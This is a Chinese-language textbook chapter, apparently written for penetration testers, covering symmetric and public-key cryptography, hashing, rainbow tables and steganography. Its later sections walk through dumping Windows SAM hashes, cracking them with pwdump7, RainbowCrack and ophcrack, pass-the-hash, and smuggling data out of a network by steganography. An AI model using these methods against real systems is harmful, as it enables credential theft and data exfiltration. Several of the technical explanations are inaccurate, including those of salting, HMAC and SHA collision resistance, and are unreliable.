AES 可以有三种不同的密钥长度：128、192 和 256 位。AES 的三种不同实现被称为 AES 128、AES 192 和 AES 256。块大小也可以是 128、192 或 256 位。需要注意的是，原版 Rijndael 密码允许以 32 位为增量的可变块和密钥长度。然而，美国政府使用这三种密钥长度与 128 位块作为 AES 的标准。

该算法由两位比利时密码学家 Joan Daemen 和 Vincent Rijmen 开发。Joan Daemen 是一位比利时密码学家，他在分组密码、流密码和密码哈希函数的密码分析方面做了大量工作。对于刚接触安全的人来说，到目前为止的简要描述已足够；然而，我们将更详细地探讨 AES 算法。就像 DES 的细节一样，这对一些读者初看可能有点令人困惑，可能需要重读几次。

Rijndael 使用替代-置换矩阵而不是 Feistel 网络。Rijndael 密码首先将 128 位明文块放入 4 字节乘 4 字节的矩阵中。该矩阵称为状态，并在算法进行其步骤时会发生变化。因此第一步是将明文块转换为二进制然后放入矩阵中。

一旦你将原始明文以二进制形式放置在 4 字节乘 4 字节的矩阵中，算法就由几个相对简单的步骤组成，这些步骤在各个轮中使用。步骤描述如下：

- **AddRoundKey:** 在此步骤中，状态的每个字节都与轮密钥进行异或运算。就像 DES 一样，有一个密钥调度算法在每一轮略微改变密钥。
- **SubBytes:** 这涉及输入字节的替换（即 AddRoundKey 阶段的输出）。这是矩阵内容通过 S 盒的地方。每个 S 盒为 8 位。
- **ShiftRows:** 这是一个换位步骤，其中状态的每一行循环移位一定数量的步数。在此步骤中，第一行保持不变。第二行的每个字节向左移动一个字节（最左端环绕）。第三行的每个字节向左移动两个，第四行的每个字节向左移动三个（同样环绕）。
- **MixColumns:** 这是一个混合操作，作用于状态的列，将每列中的四个字节组合。在 MixColumns 步骤中，状态的每一列都与一个固定多项式相乘。状态中的每一列（记住我们正在处理的矩阵）被视为 Galois 域（2⁸）内的多项式。结果与固定多项式 c(x) = 3x³ + x² + x + 2 模 x⁴ + 1 相乘。

MixColumns 步骤也可以被视为在有限域 GF(2⁸) 中用所示特定 MDS 矩阵进行乘法。

考虑到上述步骤，这些步骤在 Rijndael 密码中是这样执行的。对于 128 位密钥，有 10 轮。对于 192 位密钥，有 12 轮。对于 256 位密钥，有 14 轮。

这些最后几个步骤可能会让你有点困惑。别担心，对于我们的目的，诸如伽罗瓦域之类的数学细节并不重要。为了更好地理解 AES，你可能会发现这个动画很有用：https://www.youtube.com/watch?v=evjFwDRTmV0。

## Blowfish

Blowfish 是一种对称分组密码，使用 32 到 448 位的可变长度密钥。Blowfish 由 Bruce Schneier 于 1993 年设计。它已被密码学界广泛分析并获得了广泛认可。它也是一个非商业（免费）产品，因此对预算有限的组织具有吸引力。由于其免费状态，你可能会在许多开源产品中看到 Blowfish 的使用。

## RC4

我们讨论过的所有其他对称算法都是分组密码。RC4 是由 Ron Rivest 开发的流密码。RC 是 Ron’s Cipher 或有时是 Rivest’s Cipher 的缩写。还有其他 RC 版本，如 RC5 和 RC6，它们是分组密码。

## 对称方法的修改

前几段描述的每种算法都可以用原样使用，也可以被修改以某种方式改变其功能。


## 电子密码本

最基本的加密模式是电子密码本（ECB）模式。消息被分成块，每个块单独加密。问题在于，如果你多次提交相同的明文，你总是会得到相同的密文。这为攻击者提供了开始分析密码以尝试推导出密钥的切入点。换句话说，ECB 只是按其描述的方式使用密码，而不尝试提高其安全性。

## 密码块链接

使用密码块链接（CBC）模式时，每个明文块在加密前会与前一个密文块进行 XOR 运算。这意味着最终密文中具有显著更多的随机性，使其比电子密码本模式安全得多。它是最常见的模式。

如果通信双方都支持 CBC，真的没有充分理由使用 ECB 而非 CBC。CBC 对已知明文攻击具有强有力的遏制作用，而已知明文攻击是我们将在本章后面考察的一种密码分析方法。

CBC 的唯一问题是第一个块。没有前面的密文块可与第一个明文块进行 XOR。通常会在第一个块中添加一个初始化向量（IV），以便有东西可与其进行 XOR。初始化向量基本上是一个伪随机数，很像密码密钥。通常 IV 只使用一次，因此被称为 nonce（仅使用一次的数字）。CBC 模式实际上相当古老。它由 IBM 于 1976 年引入。

## 实际应用

对称密码相比非对称密码（我们将在下一节讨论）有几个优势。首先，对称密码比非对称密码更快。使用对称密码加密或解密某物所需的时间少于使用非对称密码加密或解密。对称密码也同样安全，但密钥更小。正如你在本节前面看到的，AES 被认为足以用于绝密文件，密钥为 256 位。要获得与 RSA（当今最广泛使用的非对称密钥）相当的安全性，你需要使用 4096 位密钥。由于这些原因，对称密码几乎总是用于加密硬盘或文件。非对称密码常用于加密电子邮件。

## 公钥（非对称）加密

*公钥加密* 的目的是克服对称加密的问题。回想一下，对称密码总是比非对称密码更快，且同样安全但密钥尺寸更小。在任何公钥加密算法中，一个密钥用于加密消息（称为公钥），另一个用于解密消息（称为私钥）。你可以自由分发你的公钥，以便任何人都可以加密消息发送给你，但只有你拥有私钥，只有你能解密消息。不同非对称算法之间，密钥的创建和应用背后的实际数学原理会有所不同。我们将在本节后面查看 RSA 的数学原理。然而，应该指出的是，许多公钥算法在一定程度上依赖于大素数、因数分解和数论。

在密码学中，使用虚构的 Alice 和 Bob 来说明非对称密码学已成为标准做法。如果 Alice 想给 Bob 发送消息，她将使用 Bob 的公钥来加密该消息。即使地球上其他每个人也拥有 Bob 的公钥也没关系。该密钥无法解密消息。只有 Bob 的私钥可以做到这一点。这在图 3-2 中显示。



图 3-2 非对称密码学。

公钥加密很重要，因为它无需处理密钥分发相关的问题。使用对称密钥加密，你必须将密钥的副本发送给每一个你希望发送加密消息的人。如果该密钥丢失或被复制，其他人可能能够解密你所有的消息。使用公钥加密，你可以自由地将公钥分发给全世界，但只有你能解密用该公钥加密的消息。

## RSA

在不讨论 RSA 的情况下无法讨论密码学，RSA 是一种非常广泛使用的加密算法。这种公钥方法由三位数学家 Ron Rivest、Adi Shamir 和 Len Adleman 于 1977 年开发。RSA 这个名字源自每位数学家姓氏的首字母。让我们看看 RSA 所涉及的数学原理。应该指出的是，了解此算法或其他任何算法背后的数学原理对于大多数渗透测试专业人员来说并不是关键。但一些读者会对更深入地了解密码学感兴趣，这里将是一个良好的起点。

在深入研究 RSA 之前，你需要了解几个基本的数学概念。其中一些（甚至全部）内容可能对你来说是复习。

- **质数：** 质数只能被自身和 1 整除。因此 2、3、5、7、11、13、17 和 23 都是质数。（请注意，1 本身被视为特例，不是质数。）
- **互质：** 这实际上并不意味着质数；它意味着两个数没有公因子。例如，8 的因子（排除 1 这一特例）是 2 和 4。9 的唯一因子是 3。8 和 9 没有公因子。它们是互质的。
- **欧拉的 totient：** 发音为“oilers” totient，或简称 totient，它是小于 n 且与 n 互质的整数的个数。让我们考虑数字 10。由于 2 是 10 的因子，它与 10 不互质。但 3 与 10 互质。4 不互质，因为 4 和 10 都有 2 作为因子。5 不互质，因为它是 10 的因子。6 也不互质，因为 6 和 10 都有 2 作为公因子。7 是质数，所以与 10 互质。8 不互质，因为 8 和 10 都有 2 作为因子。9 与 10 互质。因此 3、7 和 9 与 10 互质。我们把 1 作为特例加进来，10 的欧拉 totient 为 4。现在碰巧的是，Leonhard Euler 还证明了如果数字 n 是质数，则其 totient 总是 n − 1。所以 7 的 totient 为 6。13 的 totient 为 12。
- **乘法与互质：** 现在我们可以轻松计算任何数字的 totient。我们也自动知道任何质数 n 的 totient 只是 n − 1。但如果我们乘以两个质数会怎样？例如，我们可以乘以 5 和 7，得到 35。好吧，我们可以遍历所有到 35 的数字并统计与 35 互质的数字个数。但数字越大，这个过程就越繁琐。例如，如果你有一个 20 位数字，手动计算 totient 几乎是不可能的。幸运的是，Leonhard Euler 还证明了如果一个数是两个质数（我们称它们为 p 和 q）的乘积，例如 5 和 7，那么这两个数乘积（在本例中为 35）的 totient 等于 p − 1 * q − 1（在本例中为 4 * 6，或 24）。
- **模运算：** 这是学习 RSA 所需的最后一个概念。解释这个概念有几种方法。我们实际上会使用其中两种。首先，从程序员的角度来看，模运算是对两个数进行除法但只给出余数。程序员经常使用符号 % 来表示模运算。所以，10 % 3 为 1。10 除以 3 的余数为 1。现在，这并不是模运算的真正数学解释。

基本上，模运算对加法和减法进行操作并以某个值限制它们。你实际上一生中都在做这件事而不自知。考虑一个时钟。当你说下午 2 点时，你真正的意思是 14 mod 12（或 14 除以 12；只要给我余数）。或者如果现在是下午 2 点（实际上是 14），你告诉我 36 小时后会打电话给我，我做的就是 14 + 36 mod 12，或 50 mod 12，结果是凌晨 2 点（打电话有点早，但它说明了我们的观点）。

现在如果你理解这些基本运算，那么你就可以学习 RSA 了。如果需要，请在继续之前重读前面的部分（也许不止一次）。


创建密钥时，首先生成两个大小大致相等的、足够大的随机质数 p 和 q。你需要选择两个数，使得它们相乘后的乘积达到你想要的大小（2048 位、4096 位，等等）。

现在将 p 和 q 相乘得到 n。

令 n = pq

下一步是计算这两个质数的欧拉函数。基本上，欧拉函数是互质数的总数。两个数如果没有公因子就被认为是互质的。例如，如果原数是 7，那么 5 和 7 就是互质的。请记住，对于质数来说，这恰好总是该数减 1。例如，7 有 6 个数与它互质。（如果你仔细想想会发现 1、2、3、4、5 和 6 都与 7 互质。）

令 m = (p - 1)(q - 1)

现在我们将选择另一个数。我们称这个数为 e。我们希望选择 e 使其与 m 互质。

选择一个与 m 互质的小数 e。

我们几乎完成了密钥的生成。现在只需找到一个数 d，使得 d 与 e 相乘后对 m 取模结果为 1。（记住：取模是指将两个数相除并返回余数。例如，8 对 3 取模为 2。）

求 d，使得 de mod m = 1

现在你将 e 和 n 发布为公钥。保留 d 作为私钥。要加密，只需将你的消息提升到 e 次幂并对 n 取模。

C = m^e % n

解密时，将密文提升到 d 次幂并对 n 取模。

P = C^d % n

字母 e 代表加密，d 代表解密。如果这一切对你来说有点复杂，首先你必须意识到许多从事网络安全工作的人并不熟悉 RSA（或任何其他密码学）的实际算法。然而，如果你想深入了解密码学，这是一个很好的起点。它涉及一些基础数论，特别是关于质数的内容。还有其他以不同方式工作的非对称算法。例如，椭圆曲线密码学就是其中一种。

让我们看一个可能有助于你理解的例子。当然，RSA 会使用非常大的整数。为了便于理解数学，我们将在此示例中使用较小的整数。（请注意，此示例来自维基百科。）

选择两个不同的质数，例如 p = 61 和 q = 53。

计算 n = pq 得到 n = 61 * 53 = 3233。

计算乘积的欧拉函数为 φ(n) = (p − 1)(q − 1)，得到 φ(3233) = (61 − 1)(53 − 1) = 3120。

选择任意一个 1 < e < 3120 且与 3120 互质的数。选择 e 为质数时，我们只需检查 e 不是 3120 的因子。令 e = 17。

计算 d，即 e 的模乘法逆元，得到 d = 2753。

公钥为 (n = 3233, e = 17)。对于填充后的明文消息 m，加密函数为 m^17 (mod 3233)。

私钥为 (n = 3233, d = 2753)。对于加密的密文 c，解密函数为 c^2753 (mod 3233)。

再次强调，并非所有读者都需要完全理解 RSA 数学。但深入理解算法对于更好地评估该算法可能存在的问题是有用的。

## Diffie-Hellman

Diffie-Hellman 是第一个公开描述的非对称算法。这是一种密码协议，允许双方在不安全信道上建立共享密钥。换句话说，Diffie-Hellman 通常用于允许各方通过不安全媒介（如互联网）交换对称密钥。它由 Whitfield Diffie 和 Martin Hellman 于 1976 年开发。

## 椭圆曲线

该算法最早由 Victor Miller 和 Neal Koblitz 于 1985 年描述。椭圆曲线密码学基于这样一个事实：相对于公开已知的基点，求随机椭圆曲线元素的离散对数是困难到实际上不可行的。该算法背后的数学对于一本入门安全书籍来说有点太多；不过，如果你感兴趣，这里有一个很棒的教程，网址为 http://arstechnica.com/security/2013/10/a-relatively-easy-to-understand-primer-on-elliptic-curve-cryptography/。

存在多种变体，例如 ECC Diffie Hellman（ECC-DH）和 ECC 数字签名算法（ECC-DSA）。ECC 密码系统的真正优势在于，与 RSA 等其他系统相比，你可以使用更小的密钥获得同等的安全性。例如，384 位 ECC 密钥与 2048 位 RSA 一样强。

## 数字签名

数字签名不是用于确保消息的保密性，而是用于保证消息的发送者。这被称为不可否认性。本质上，它证明了发送者是谁。数字签名实际上相当简单，但很巧妙。它们只是反转了非对称加密过程。回想一下，在非对称加密中，公钥（任何人都可以访问）用于向接收者加密消息，而私钥（保密、私有）可以解密它。在数字签名中，发送者用自己的私钥加密某些内容（通常是哈希）。如果接收者能够用发送者的公钥解密它，那么它一定是由声称发送该消息的人发送的。

## 哈希

哈希是一种具有特定特征的密码算法。首先，也是最重要的是，它是单向的。这意味着你无法反向哈希。第二，无论输入是什么，你都会得到固定长度的输出。第三，没有碰撞。碰撞是指对同一哈希算法的两个不同输入产生相同的输出（称为哈希或摘要）。理想情况下，我们希望没有碰撞。但现实是，固定长度的输出使得碰撞成为可能。因此目标是使其发生的可能性小到无需考虑。

哈希正是 Windows 存储密码的方式。例如，如果你的密码是 password，那么 Windows 首先会对它进行哈希，产生类似这样的结果：

```
0BD181063899C9239016320B50D3E896693A96DF
```

Windows 然后将该哈希存储在 Windows 系统目录中的安全账户管理器（SAM）文件中。当你登录时，Windows 无法反向哈希你的密码（记住它是单向的）。因此，Windows 所做的是对你输入的任何密码进行哈希，然后将其结果与 SAM 文件中的内容进行比较。如果它们完全匹配，那么你就可以登录。

存储 Windows 密码只是哈希的一个应用。还有其他应用。例如，在计算机取证中，在开始取证检查之前，对驱动器进行哈希是很常见的。然后稍后你可以再次对其进行哈希，以查看是否有任何更改（意外或故意）。如果第二次哈希与第一次匹配，则说明没有任何更改。

存在各种哈希算法。最常见的两种是 MD5 和 SHA。（曾经是 SHA-1，但此后像 SHA-256 这样的更新版本变得更常见。）

## MD5

MD5 是一种 128 位哈希，由 RFC 1321 规定。它由 Ron Rivest 于 1991 年设计，用以取代早期的哈希函数 MD4。MD5 生成 128 位哈希或摘要。研究发现它的抗碰撞性不如 SHA。

## SHA

安全哈希算法（SHA）可能是今天使用最广泛的哈希算法。现在有多个版本的 SHA。SHA（所有版本）被认为安全且无碰撞。

- **SHA-1:** 这是一个 160 位哈希函数，类似于早期的 MD5 算法。它由国家安全局（NSA）设计，作为数字签名算法的一部分。
- **SHA-2:** 这实际上是两个相似的哈希函数，具有不同的块大小，称为 SHA-256 和 SHA-512。它们在字长上有所不同；SHA-256 使用 32 字节（256 位）字，而 SHA-512 使用 64 字节（512 位）字。每个标准还都有截断版本，称为 SHA-224 和 SHA-384。这些也是由 NSA 设计的。
- **SHA-3:** 这是 SHA 的最新版本。它于 2012 年 10 月被采纳。

## RIPEMD

RACE 完整性原语评估消息摘要是一种 160 位哈希算法，由 Hans Dobbertin、Antoon Bosselaers 和 Bart Preneel 开发。该算法存在 128 位、256 位和 320 位版本，分别称为 RIPEMD-128、RIPEMD-256 和 RIPEMD-320。所有这些都取代了原始的 RIPEMD，后者被发现存在碰撞问题。

## Windows 哈希

Windows 最初使用 LM（LAN Manager）哈希。这不是真正的哈希，且仅限于 14 个字符的密码。Windows 的后续版本转向了 NTLM（新技术 LAN 管理器），最终为 NTLMv2。NTLMv2 使用 MD5 哈希的 HMAC。我们将在下一节讨论 HMAC。LM 也不区分大小写，因此 S 与 s 相同。

## MAC 和 HMAC

哈希用于多种安全相关功能。其中之一是存储密码，我们已经讨论过（本章后面还会看到更多）。

消息的哈希可以发送以查看传输过程中是否发生了意外更改。如果消息在传输中被更改，接收者可以将收到的哈希与计算机发送的哈希进行比较并检测传输错误。但如果消息被故意更改呢？如果有人故意更改消息、删除原始哈希并重新计算新的哈希会怎样？不幸的是，简单的哈希算法无法应对这种情况。

消息认证码（或 MAC）是检测消息被故意篡改的一种方法。MAC 也常被称为密钥密码哈希函数。这个名字应该能告诉你它是如何工作的。实现此目的的一种方法是 HMAC，即哈希消息认证码。假设你使用 MD5 来验证消息完整性。为了检测拦截方故意篡改消息，发送方和接收方必须事先交换一个适当大小的密钥（在本例中为 128 位）。发送方将对消息进行哈希，然后将该哈希与此密钥进行异或。接收方将对收到的内容进行哈希，并将计算出的哈希与密钥进行异或。然后交换这两个哈希。如果拦截方只是重新计算哈希，他将没有密钥与其进行异或（甚至可能不知道应该进行异或）；因此，拦截方创建的哈希将与接收方计算的哈希不匹配，干扰将被检测到。

该概念还有其他变体。有些使用对称密码的密码块链接（CBC）模式，然后仅使用最后一个块作为 MAC。这些被称为 CBC-MAC。


## 彩虹表

因为 Windows 和许多其他系统都将密码存储为哈希值，所以很多人对如何破解哈希感兴趣。如我所提到的，由于哈希不可逆，因此无法对某物进行“反哈希”。1980 年，Martin Hellman 描述了一种密码分析技术，该技术通过使用存储在内存中的预先计算数据来减少密码分析时间。该技术在 1982 年前由 Rivest 改进。基本上，这些类型的密码破解器使用特定字符空间内所有密码的预先计算哈希值进行工作。这称为彩虹表。如果你在彩虹表中搜索给定的哈希值，你找到的任何明文都必须是输入到哈希算法中以产生该特定哈希值的文本。

显然，这样的彩虹表会非常快地变得非常庞大。假设密码必须限制为键盘字符。那就剩下 52 个字母（26 个大写和 26 个小写）、10 个数字和大约 10 个符号，或约 72 个字符。可以想象，即使是 6 个字符的密码也有非常多的可能组合。这意味着彩虹表能有多大是有限制的，这也是为什么更长的密码比更短的密码更安全的原因。

自彩虹表开发以来，已经出现了旨在挫败此类攻击的方法。最常见的是盐。随机位被添加以进一步保护加密或哈希。盐通常与哈希一起使用以防止彩虹表攻击。

本质上，盐与要进行哈希的消息混合在一起。考虑这个例子。你有一个密码是

```
pass001
```

以二进制形式是

```
01110000 01100001 01110011 01110011 00110000 00110000 00110001
```

盐算法会定期插入位。假设在我们的示例中我们每隔第四位插入位，给我们

```
0111100001 0110100011 0111100111 0111100111 0011100001 0011100001 0011100011
```

如果你将其转换为文本，你会得到

```
xZ7♦♦#
```

所有这一切对终端用户都是透明的。终端用户甚至不知道加盐正在发生或它是什么。然而，使用彩虹表来获取密码的攻击者会得到错误的密码。

渗透测试人员有许多工具可用于尝试破解密码哈希。下面讨论其中一些最常用的工具。

## pwdump

许多密码破解工具的第一步是从 Windows SAM 文件中获取本地密码哈希的副本。程序 pwdump 可以为你做到这一点；有几个版本可在 http://www.openwall.com/passwords/windows-pwdump 上获得。图 3-3 是 pwdump7 输出的图像，由于这是在一台实时机器上运行的，因此实际哈希已被涂黑。



图 3-3 pwdump7.

通常，你希望将哈希转储到外部文件，以便将其导入彩虹表工具。这很容易完成，并在图 3-4 中显示。



图 3-4 pwdump7 导出到外部文件。

## RainbowCrack

该工具可从 http://project-rainbowcrack.com/ 免费下载。它允许你加载哈希，例如从 pwdump7 导出的哈希，并在彩虹表中搜索匹配项。你可以在图 3-5 中看到加载过程。



图 3-5 RainbowCrack 加载一个 pwdump 文件。

如果彩虹表有匹配项，那么你将看到密码的明文。

## Ophcrack

如果我不提到黑客社区长期使用的工具 ophcrack，我将是不称职的。Ophcrack 很重要，因为它可以安装在可启动 CD 上。如果以这种方式使用，你将系统启动到 CD，从而绕过 Windows 安全机制，然后继续尝试破解密码。Ophcrack 提供一个小型彩虹表免费使用；必须购买更大的彩虹表。你可以从 http://ophcrack.sourceforge.net/ 下载 ophcrack。它也不需要单独的过程来转储 Windows SAM 文件。相反，它会为你从 SAM 文件中抓取数据。图 3-6 显示了 ophcrack 的输出（同样，哈希和密码已被涂黑）。



图 3-6 Ophcrack.

使用此工具或其他工具，你并不总是会成功。然而，作为渗透测试人员，你应该始终尝试。如果你可以获取密码，那么攻击者也可以。

## Linux 哈希

我们一直关注 Windows 哈希；然而，Linux 也将密码存储为哈希。Linux 密码存储在 /etc/shadow 文件中。它们是加盐的，并且使用的算法取决于特定的发行版并且可配置。/etc/password 文件是用户列表；实际密码存储在 /etc/shadow 中。如果你可以从 Linux 中恢复哈希，你可以使用前面提到的彩虹表来尝试恢复密码。

## Pass the Hash

在传递哈希攻击中，攻击者拥有哈希，并绕过应用程序，将哈希直接传递给后端服务。基本上，过程是这样的：应用程序会获取用户输入的密码并对其进行哈希处理，将哈希发送到后端服务或数据库。如果攻击者可以获得哈希的副本，他或她可以绕过应用程序并将哈希直接发送到后端服务或数据库并登录。

无论是为了传递哈希攻击还是用于彩虹表，攻击者通常会进行哈希收割。这是从他们能找到的任何地方获取哈希的过程。一些常见方法包括：

- 从 Windows 机器转储本地 SAM 文件。该文件包含所有本地用户的密码哈希。我们之前在 pwdump7 中看到过这一点。
- 使用数据包嗅探器获取 NT 和 NTLM 哈希，因为它们在传输时如果未加密。
- 获取可能存储在本地机器上的任何缓存哈希。一些应用程序会缓存哈希密码。

## 密码破解器

除了前面提到的用于检索密码哈希的工具外，黑客还使用各种工具从许多来源检索密码。其中最知名的是 Cain and Abel。这又是另一个免费工具，可提取 Wi-Fi、Internet Explorer 和其他来源的密码。你可以在图 3-7 中看到这一点。同样，此图像中的密码已被涂黑。



图 3-7 Cain and Abel.

## 隐写术

隐写术是书写隐藏消息的艺术和科学，以至于除了发送者和预期接收者之外，没有人怀疑消息的存在。它是一种通过隐蔽性实现的安全形式。通常消息隐藏在其他文件中，例如数字图片或音频文件，以避免被检测到。

隐写术相对于仅加密的优势在于消息不会引起注意。如果有人甚至不知道消息存在，她就不会尝试解密。在许多情况下，消息会被加密并通过隐写术隐藏。

隐写术最常见的实现利用文件中的最低有效位（LSB）来存储数据。通过更改最低有效位，你可以在不以任何明显方式改变原始文件的情况下隐藏额外数据。

你应该知道一些基本的隐写术术语：

- Payload 是要秘密通信的数据。换句话说，它是你希望隐藏的消息。
- The carrier 是负载被隐藏的信号、流或数据文件。
- The channel 是使用的媒介类型。这可能是静态照片、视频或声音文件。

今天实现隐写术最常见的方式是通过最低有效位。在每个文件中，每单位文件都有一定数量的位。例如，Windows 中的图像文件每像素 24 位。如果你更改这些位中的最低有效位，那么变化对肉眼来说是不可察觉的。你可以在图像文件的最低有效位中隐藏信息。通过最低有效位（lsb）替换，载体文件中的某些位会被替换。

## 历史隐写术

在现代，隐写术意味着数字操纵文件以隐藏消息。然而，隐藏消息的概念并非新鲜事物。历史上使用了许多方法。

- 古代中国人将便条包在蜡中并吞下以运输。这是一种粗糙但有效的方法来隐藏消息。
- 在古希腊，信使的头可能会被剃掉，消息写在他的头上，然后让他的头发重新长出来。显然，这种方法需要一些时间才能可用。
- 在 1499 年 Johannes Trithemius 写了一本关于密码学的书并描述了一种技术，其中消息通过将每个字母作为特定列中的一个词来隐藏。


- 二战期间，法国抵抗组织使用隐形墨水在信使背部书写信息发送消息。
- 微点是嵌入在无害文件中的、大小相当于打字机一个句点的图像/未显影胶片。据说冷战期间间谍使用过它们。
- 冷战期间，美国中央情报局还使用各种设备来隐藏信息。例如，他们开发了一种烟斗，内部有隐藏微缩胶片的小空间，但仍可吸烟。

在更近的时期，但在计算机出现之前，其他方法也被用来隐藏信息。

## 方法和工具

实现隐写术有多种工具可用。许多是免费的，或者至少提供免费试用版。下面列出了其中一些工具：

- **QuickStego:** 易于使用但功能非常有限
- **MP3Stego:** 专门用于在 MP3 文件中隐藏有效载荷
- **Stealth Files 4:** 可处理音频文件、视频文件和图像文件
- **SNOW:** 在空白字符中隐藏数据
- **StegVideo:** 在视频序列中隐藏数据
- **Invisible Secrets:** 一种非常多功能的隐写工具，拥有多种选项

## 简单隐写

你也可以从我的网站获取一个免费的简单隐写程序：http://www.chuckeasttom.com/tutorialsandnotes.htm；它在页面底部附近。需要说明的是，这绝对不是最复杂的可用程序，但它非常易于使用且免费！你只需输入想要隐藏的文本，打开一个载体图像，然后点击隐藏即可。你可以在图 3-8 中看到这一点。

## DeepSound

该程序也是免费的，用于在音频文件中隐藏数据。你可以从 http://jpinsoft.net/deepsound/ 下载 DeepSound。请注意它对载体文件要求比较苛刻，意味着某些音频文件根本无法使用。过程相当简单：

- **步骤 1.** 打开一个载体文件（某个音频文件）。
- **步骤 2.** 添加秘密文件：一个或多个你想要隐藏的文件（jpeg、文本等）。
- **步骤 3.** 点击 **编码秘密文件**。



图 3-8 简单隐写。

你可以在图 3-9 中看到这一点。



图 3-9 DeepSound。

隐写术常用于隐藏数据。通常，技术娴熟、希望窃取数据的内部人员会使用隐写术。渗透测试人员应尝试通过隐写方式将隐藏在其他文件中的内容从目标网络通过电子邮件发送出去。大多数网络安全措施不会检测到隐藏文件，甚至不会注意到邮件附件。

## 密码分析

密码分析是一项艰巨的任务。它本质上是寻找突破某种加密的方法。而且，与电影中看到的不同，这是一项非常耗时的工作，往往只能取得部分成功。密码分析涉及使用任何比简单暴力尝试更高效的方法来解密消息。请记住，暴力破解只是尝试每一种可能的密钥。

密码分析的成功并不一定意味着破解目标密码体制。事实上，获取有关目标密码体制或密钥的任何信息都被视为成功。有几种类型的密码学成功：

- **完全破解：** 攻击者推导出秘密密钥。
- **全局推断：** 攻击者发现了一个功能上等价的加密和解密算法，但并未学习到密钥。
- **实例（局部）推断：** 攻击者发现了此前未知的额外明文（或密文）。
